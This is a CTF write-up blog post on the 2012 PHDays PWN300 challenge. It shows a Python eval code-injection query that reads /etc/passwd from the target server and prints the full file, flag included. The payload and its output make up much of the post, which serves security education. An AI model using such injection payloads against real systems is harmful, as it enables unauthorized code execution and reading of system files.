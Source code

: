 ```yaml
---
layout: post
title: "2012 PHDays Quals: PWN300 Writeup"
description: ""
category: security
tags: [phdays, phdays quals, ctf]
---
```

{% include JB/setup %}

*This post is mirrored from my old blog.*

We were presented with a simple site. It was the admin control panel for the oppressive South Park PD. It allowed the cruel police of South Park to select a citizen, and one of three horrible actions. To teach them a lesson, we were to extract the flag from /etc/passwd.

Submitting the form submitted three parameters:  
actions  
choice  
human

We were given the sources, but I didn't look too hard at them. Chucking rubbish into the variables, we're very quickly able to get a python stack trace. With some more tinkering, we can find that whatever is included in "human" is passed to "actions" as an argument. The output of actions has to be a string, or the program fails.

The query I used to get the flag was:

	&actions=eval&choice=%00&human=str(file("/etc/passwd").read())

I never figured out what choice did, but changing it from a null byte seemed to break things, so I just left it.

The response:

	HTTP/1.1 200 OK
	Date: Sat, 15 Dec 2012 16:07:58 GMT
	Content-Length: 1485
	Content-Type: text/html
	Server: TwistedWeb/12.1.0
	
	# $FreeBSD: src/etc/master.passwd,v 1.42.2.1.2.2 2012/11/17 08:36:10 svnexp Exp $
	#
	root:*:0:0:Charlie &amp; flag -&gt; d9301a72ee12eabb2b913398a3fab50b:/root:/bin/csh
	toor:*:0:0:Bourne-again Superuser:/root:
	daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
	operator:*:2:5:System &amp;:/:/usr/sbin/nologin
	bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
	tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
	kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
	games:*:7:13:Games pseudo-user:/usr/games:/usr/sbin/nologin
	news:*:8:8:News Subsystem:/:/usr/sbin/nologin
	man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
	sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
	smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
	mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
	bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
	proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
	_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
	_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
	uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
	pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
	www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
	hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
	nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
	phdays:*:1001:1001:User &amp;:/home/phdays:/bin/sh</blockquote>
